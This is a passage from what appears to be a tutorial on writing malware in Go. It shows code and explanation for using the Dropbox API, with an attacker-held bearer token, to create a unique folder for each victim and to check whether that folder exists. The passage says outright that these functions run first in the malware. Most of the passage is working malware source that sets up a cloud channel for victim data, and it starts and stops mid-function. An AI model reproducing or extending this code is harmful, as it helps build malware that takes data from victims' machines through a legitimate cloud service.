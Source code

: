 ```
        "path": dataParam1[0],
        "autorename": dataParam2[1],
    })
    request, _ := http.NewRequest("POST", "https://api.dropboxapi.com/2/files/create_folder_v2", bytes.NewBuffer(requestParams))
    request.Header.Add("Authorization", bearer)
    request.Header.Add("Content-Type", "application/json")
    response, _ := client.Do(request)
    responseBod, _ := ioutil.ReadAll(response.Body)
    fmt.Println(string(responseBod))
    response.Body.Close()
    return
}
```

This would be one of the first functions to run in the malware, but we should also implement a function to check if the unique victim folder exists before we create it, just so it doesn't attempt to create it everytime the malware is ran. All we'd need to do is make an API call to [list_folder](https://dropbox.github.io/dropbox-api-v2-explorer/#files_list_folder) which would return the list of files & folders that we have in Dropbox. Then we'd iterate through this list and compare each folder name to the unique identifier which is assigned to the *UUID* variable. Since the API returns json encoded data, we'd need to unravel this in order to properly iterate through the data.

So if the folder exists, we return true. Otherwise, we assign the value 0 to a variable named *exists*, then after we've iterated through all the elements in the list, we check the value of the *exists* variable: if it's 0 (meaning the folder doesn't exist), then we return false which means we will create the victim's unique folder on Dropbox. And if true is returned, then we simply skip the process of creating the unique folder as it already exists.

```
func folderExists(dbFolderName string) bool {
	var bearer = "Bearer " + token
	fmt.Printf("Folder name to search: %s:\n", dbFolderName)
	dataParamBool := []interface{} {true, false}
	requestParams, _ := json.Marshal(map[string]interface{} {
		"path": "",
		"recursive": dataParamBool[0],
		"include_deleted": dataParamBool[1],
		"include_has_explicit_shared_members": dataParamBool[1],
		"include_mounted_folders": dataParamBool[0],
		"include_non_downloadable_files": dataParamBool[0],
	})
	request, _ := http.NewRequest("POST", "https://api.dropboxapi.com/2/files/list_folder", bytes.NewBuffer(requestParams))
	request.Header.Add("Authorization", bearer)
	request.Header.Add("Content-Type", "application/json")
	response, _ := client.Do(request)
	respbody, _ := ioutil.ReadAll(response.Body)
	response.Body.Close()
	jmap := make(map[string]interface{})
	err := json.Unmarshal([]byte(string(respbody)), &jmap)
	if err != nil {
		fmt.Println(err)
	}
	exists := 0
	fileEntries := jmap["entries"].([]interface{})
	for i:=0; i<=len(fileEntries)-1; i++ {
		fileEntry := fileEntries[i].(map[string]interface{})
		if fileEntry["name"].(string) == dbFolderName {
			fmt.Println("Folder exists!")
			return true
		} else {
			exists = 0
		}
```